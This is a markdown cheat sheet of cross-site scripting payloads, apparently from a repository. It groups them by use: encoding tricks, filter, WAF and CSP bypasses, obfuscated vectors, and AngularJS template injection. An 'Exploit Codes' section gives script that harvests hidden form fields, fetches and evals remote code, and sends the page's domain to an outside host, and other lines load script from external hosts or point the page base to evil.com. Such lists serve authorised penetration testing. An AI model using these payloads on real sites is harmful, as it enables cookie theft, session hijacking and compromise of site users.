 > Blind XSS

```https://xsshunter.com/```


> Encoding

```%u003Cscript%u003Eprompt%u0028303%u0029%u003C/script%u003E```

```%253Cscript%253Ealert(1)%253C%252Fscript%253E```

```%uff1cscript%uff1ealert(1);%uff1c/script%uff1e```


> XML Based XSS

```<![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>```

```<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</x:script>```


> Where :// is required after protocol

```javascript://%250aalert(1) ```


> XSS in email ID

```"\"><s>test"@gmail.com```


> alert, prompt, confirm is not allowed

```this[Object["keys"](this)[6]](1)```

```javascript:eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));```

```<script>eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));</script>```

```<svg/onload=t=/aler/.source+/t/.source;window.onerror=window[t];throw+1;//```

```[][`filter`][`constructor`](`ale`.concat(`rt\x28`.concat`0\x29`))();//```

```[]['\146\151\154\164\145\162']['\143\157\156\163\164\162\165\143\164\157\162']('\141\154\145\162\164\50\61\51')() ```

```([_,_____,_,_,__,___]=(__=[])+{___:__},[______,_,________,____,,_________,_______,__,,,__________]=[!!_____]+!_____+_____._____)[___+=_____+__________+__+______+_+________+___+______+_____+_][___](_________+_______+____+_+______+'(-~_____)')(__)```

```([,?,,,,??]=[]+{},[???,????,?????,??????,,???????,????????,?????????,,,??????????]=[!!?]+!?+?.?)[??+=?+??????????+?????????+???+????+?????+??+???+?+????][??](???????+????????+??????+????+???+'`1`')```


> Simple bypasses

```<body onpageshow=alert(1)>```

```<k onsubmit=alert(1)>```

```<k oninput=alert(1)>```

```<style onload=alert(1)>```

```<html ontouchstart=alert(1)>MobileXSS```

```<marquee behavior="alternate" onstart=alert(1)>XSS</marquee>```

```<script/x>alert(1)</script/x>```

```<details ontoggle=alert()>```

```<SCRIPT SRC=//BRUTELOGIC.COM.BR/1></SCRIPT>```

```<SVG ONLOAD=&#97&#108&#101&#114&#116(1)>```

```<a/href=//0>```

```<script src=//14.rs>```

```<base href=//evil.com>```

```" onfocus=alert(1) autofocus```


> Obfuscated vectors

```<imG/sRc=l oNerrOr=(prompt)() x>```

```<d3"<"/onclick="1>[confirm``]"<">XSS```

```<svg/x=">"/onload=confirm()//```

```<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>```

```<svg </onload ="1> (_=prompt,_(1)) "">```

```<w="/x="y>"/ondblclick=`<`[confir\u006d``]>XXS```

```<A/iD=x hREf=jav&#x09;ascript:prom&#x09;pt(doc&#x09;ument.coo&#x09;kie); id=x>XSS```


> Exploit Codes

```Hidden Field data ~```

```<script>var xss = '';f=document.forms;for(i=0;i<f.length;i++){e=f[i].elements;for(n in e){if(e[n].type=='hidden'){alert(e[n].name+': '+e[n].value)}}};//'';</script>```

```Response on server ~```

```<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//127.0.0.1:8080");a.send();</script>```

```Cookie stealing with JS protocol ~```

```javascript:void(a='//127.0.0.1');void(b=document.domain);void(c=a.concat(b));void(window.location.assign(c));```


> Javascript XSS

```data:,alert(1)```

```\'-alert(1)//```

```'}alert(1);{'```

```'-alert()-'```

```'}alert(1)%0A{'```

```\'}alert(1);{//```


> CSP Bypassed

```<script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1></script> <embed src='//ajax.googleapis.com/ajax/libs/yui/2.8.0r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e){alert(1)}//' allowscriptaccess=always>```


> Angular JS

```{{constructor.constructor('alert(1)')()}} ```

```<x ng-app>{{constructor.constructor('alert(1)')()}}```

> When Space and Slash doesnt work

```<svgonload=alert(1)>```

> Misc

```<script ~~~>confirm(1)</script ~~~>```

```window+=valueOf=alert(1)```

```[cookie].some(alert)```

```"accesskey=X onclick=alert(1)+```

```-alert(1)//\       (quoteless xss inside js context when param is reflecting 2 times in same line)```

```<svg onload=setInterval`alert\x28document.domain\x29`>```

```(alert)(1)```

```a=alert,a(1)	```

```[1].find(alert)```

```top["al"+"ert"](1)```

```top[/al/.source+/ert/.source](1)```

```al\u0065rt(1)```

```top['al\145rt'](1)```

```top[8680439..toString(30)](1)```

```<svg onload=alert&lpar;1&rpar;>```

```<svg onload=alert&#x28;1&#x29>```

```<svg onload=alert&#40;1&#41>```

```<svg onload=setInterval`alert\x28document.domain\x29`>```

```"><input type="submit" formaction="javascript&colon;this&lsqb;'a'&plus;'lert'&rsqb;`1`">```

```<body onfocus=alert(1)>```

```<object data=javascript:alert(1)>```

```<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">```

```<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>```

```<IFRAME SRC="javascript:alert('XSS');"></IFRAME>```

```%253cscript%253ealert(document.cookie)%253c/script%253e```

```<audio/onloadstart=alert(1) src>```

```%u0025%u0075%u0066%u0066%u0031%u0063%u0073%u0063%u0072%u0069%u0070%u0074%u0025%u0075%u0066%u0066%u0031%u0065%u0061%u006c%u0065%u0072%u0074%u0028%u0018%u0058%u0053%u0053%u0019%u0029%u003b%u0025%u0075%u0066%u0066%u0031%u0063%u002f%u0073%u0063%u0072%u0069%u0070%u0074%u0025%u0075%u0066%u0066%u0031%u0065```

```%uff1cscript%uff1ealert(1);%uff1c/script%uff1e```

```<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>                            akamai ghost wafbypass```


> Reference
```https://research.digitalinterruption.com/2018/12/18/a-deeper-look-into-xss-payloads/```
```https://portswigger.net/web-security/cross-site-scripting/cheat-sheet```
